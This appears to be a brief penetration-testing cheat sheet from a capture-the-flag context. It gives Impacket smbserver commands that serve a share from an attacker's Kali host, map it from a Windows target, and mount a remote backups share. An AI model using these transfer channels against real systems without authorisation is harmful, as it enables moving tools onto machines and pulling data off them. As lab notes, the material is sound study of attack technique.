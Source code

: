# smbserver.py

```
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)
net use x: \\10.10.14.28\kalishare /user:guest guest
```

```
impacket-smbserver kalishare `pwd`
dir \\10.10.14.25\kalishare
```

mount smb share on Kali Linux, refer here if you want to do more with shares etc - [https://0xdf.gitlab.io/2019/09/07/htb-bastion.html](https://0xdf.gitlab.io/2019/09/07/htb-bastion.html)

```
mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
```
